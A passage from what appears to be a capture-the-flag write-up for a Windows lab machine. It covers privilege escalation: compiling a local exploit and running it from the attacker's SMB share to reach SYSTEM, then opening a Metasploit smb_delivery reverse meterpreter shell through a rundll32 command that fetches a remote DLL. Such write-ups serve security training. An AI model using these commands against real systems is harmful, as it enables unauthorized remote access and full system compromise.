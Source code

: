 Compile exploit

```bash
i686-w64-mingw32-gcc 40564.c -o exp.exe -lws2_32
mv exp.exe smb/
```

Run exploit

```bash
C:\ProgramData>\\10.10.14.70\s\exp.exe
\\10.10.14.70\s\exp.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```


## Privilege Escalation with Metasploit

Not necessary, but always enjoy autopwn

> After the recent update, metasploit needs to be start as root otherwise it will fail
{: .prompt-tip }

```bash
sudo msfconsole -q
```


### Deliver Msfvenom payload

> **web_delivery** is not working for this machine
{: .prompt-tip }

```bash
msf6 > use exploit/windows/smb/smb_delivery
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/smb_delivery) > set lhost tun0
lhost => 10.10.14.70
msf6 exploit(windows/smb/smb_delivery) > run
[*] Exploit running as background job 4.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.70:4444
[*] Server is running. Listening on 0.0.0.0:445
[*] Server started.
[*] Run the following command on the target machine:
rundll32.exe \\0.0.0.0\CtJQX\test.dll,0

msf6 exploit(windows/smb/smb_delivery) >
[*] Sending stage (175686 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.70:4444 -> 10.10.10.5:49332) at 2023-07-21 22:37:24 +0800

msf6 exploit(windows/smb/smb_delivery) > sessions

Active sessions
===============

  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  1         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL  10.10.14.70:4444 -> 10.10.10.5:49332 (10.10.10.5)
```

